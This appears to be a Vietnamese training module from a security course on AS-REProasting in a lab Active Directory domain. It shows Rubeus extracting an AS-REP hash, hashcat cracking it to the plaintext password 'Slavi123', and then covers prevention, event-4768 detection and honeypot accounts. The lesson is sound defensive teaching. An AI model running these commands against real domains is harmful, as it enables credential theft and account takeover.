





# AS-REProasting


## Mô tả

Cuộc tấn công `AS-REProasting` tương tự cuộc tấn công `Kerberoasting`; ta có thể lấy các hash có thể crack được cho các tài khoản user có bật thuộc tính `Do not require Kerberos preauthentication` (không yêu cầu tiền xác thực Kerberos). Mức độ thành công của cuộc tấn công này phụ thuộc vào độ mạnh của password tài khoản user mà ta sẽ crack.

---

## Tấn công

Để lấy các hash có thể crack được, ta có thể lại dùng `Rubeus`. Tuy nhiên, lần này ta sẽ dùng action `asreproast`. Nếu ta không chỉ định tên, `Rubeus` sẽ trích xuất hash cho mỗi user có `Kerberos preauthentication` không bắt buộc:

```powershell-session
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```



Khi `Rubeus` lấy được hash cho user Anni (người duy nhất trong môi trường playground có preauthentication không bắt buộc), ta sẽ chuyển file văn bản đầu ra sang máy tấn công Linux.

Để `hashcat` nhận diện được hash, ta cần sửa nó bằng cách thêm `23$` vào sau `$krb5asrep$`:

```shell-session
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

Giờ ta có thể dùng `hashcat` với hash-mode (tuỳ chọn -m) `18200` cho các hash `AS-REPRoastable`. Ta cũng truyền vào một file từ điển chứa password (file `passwords.txt`) và lưu kết quả của mọi ticket crack thành công vào file `asrepcracked.txt`:

```shell-session
[!bash!]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550
Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022
```



Khi `hashcat` crack được password, ta có thể in nội dung file đầu ra để lấy password dạng rõ `Slavi123`:

```shell-session
[!bash!]$ sudo cat asrepcrack.txt

$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550:Slavi123
```



---

## Prevention (phòng ngừa)

Như đã đề cập, mức độ thành công của cuộc tấn công này phụ thuộc vào độ mạnh của password của các user được cấu hình `Do not require Kerberos preauthentication`.

Trước hết, ta chỉ nên dùng thuộc tính này khi cần; một thông lệ tốt là rà soát các tài khoản hàng quý để đảm bảo ta không gán thuộc tính này. Vì thuộc tính này thường gặp ở một số tài khoản user thông thường, các tài khoản đó thường có password dễ crack hơn so với các tài khoản dịch vụ có SPN (những tài khoản từ Kerberoast). Do đó, với các user cần cấu hình này, ta nên gán một password policy riêng, yêu cầu ít nhất 20 ký tự để ngăn chặn các nỗ lực crack.

---

## Detection (phát hiện)

Khi ta chạy Rubeus, một Event với ID `4768` được sinh ra, báo hiệu rằng một `Kerberos Authentication ticket` đã được tạo:



Điểm cần lưu ý là AD sinh ra event này cho mỗi user xác thực bằng Kerberos tới bất kỳ thiết bị nào; do đó, event này xuất hiện rất nhiều. Tuy nhiên, có thể biết được user đã xác thực từ đâu, điều ta có thể dùng để đối chiếu (correlate) các lần đăng nhập đã biết là hợp lệ với các vụ trích xuất hash có khả năng độc hại. Việc soi xét từng địa chỉ IP cụ thể có thể khó, đặc biệt khi một user di chuyển giữa các địa điểm văn phòng. Tuy nhiên, có thể soi kỹ một VLAN cụ thể và cảnh báo mọi thứ nằm ngoài nó.

Một field khác ta nên tập trung vào là [Pre-Authentication Type](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4768#table-5-kerberos-pre-authentication-types), chứa thông tin liên quan đến loại request. Các công cụ lợi dụng tuỳ chọn "`Do not require Kerberos preauthentication`" trên một tài khoản domain user sẽ sinh ra type `0` trong event liên quan tới việc đăng nhập không có Pre-Authentication. Thông thường, các công cụ này sẽ nhắm vào các loại mã hoá yếu như `RC4` ([0x17](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4768#kerberos-encryption-types) trong field `Ticket Encryption Type` của event). `Rubeus` mặc định dùng loại mã hoá RC4, như ta có thể thấy trong [source code](https://github.com/GhostPack/Rubeus/blob/e35a5e3a2ce016e251bf32aa9a923cc17870318c/Rubeus/lib/Roast.cs#L116).

---

## Honeypot

Với cuộc tấn công này, `honeypot user` là một lựa chọn phát hiện tuyệt vời để cấu hình trong môi trường AD; đây phải là một user không có mục đích sử dụng/nhu cầu thực sự nào trong môi trường, sao cho bình thường không có nỗ lực đăng nhập nào được thực hiện. Do đó, mọi nỗ lực đăng nhập cho tài khoản này nhiều khả năng là độc hại và cần được điều tra.

Tuy nhiên, giả sử honeypot user là tài khoản duy nhất có `Kerberos Pre-Authentication not required`. Trong trường hợp đó, có thể có các phương pháp phát hiện tốt hơn, vì các kẻ tấn công cao cấp sẽ thấy quá rõ ràng rằng đó là honeypot user, dẫn đến việc chúng tránh tương tác với nó. (Trước đây tôi từng nghe từ một tổ chức có nhu cầu dùng một trong các tài khoản kiểu này (liên quan tới ứng dụng) rằng 'security through obscurity' (bảo mật nhờ che giấu) đằng sau việc chỉ có duy nhất một tài khoản kiểu này có thể cứu họ, vì kẻ tấn công sẽ tránh nhắm vào nó do nghĩ rằng đó là honeypot user. Dù điều này có thể đúng trong một số trường hợp, ta không nên để một tia hy vọng quyết định trạng thái bảo mật của môi trường.)

Để tạo một honeypot user tốt, ta nên đảm bảo các điều sau:

- Tài khoản phải là một user tương đối cũ, lý tưởng là một tài khoản đã trở nên "giả tạo"/vô dụng (các kẻ tấn công cao cấp sẽ không yêu cầu ticket cho các tài khoản mới vì chúng nhiều khả năng có password mạnh và có khả năng là honeypot user).
- Với một tài khoản dịch vụ, password lý tưởng nên cũ hơn hai năm. Với user thông thường, duy trì password sao cho nó không cũ quá một năm.
- Tài khoản phải có các lần đăng nhập sau ngày password được đổi; nếu không, nó sẽ lộ liễu nếu ngày đổi password cuối cùng trùng với lần đăng nhập trước đó.
- Tài khoản phải được gán một số đặc quyền; nếu không, việc thử crack hash password của nó sẽ không gây hứng thú.

Nếu quay lại môi trường playground và cấu hình user 'svc-iam' (có lẽ là một tài khoản IAM cũ còn sót lại) theo các khuyến nghị trên, thì mọi request lấy TGT cho tài khoản đó đều nên được cảnh báo. Event nhận được sẽ trông như sau:


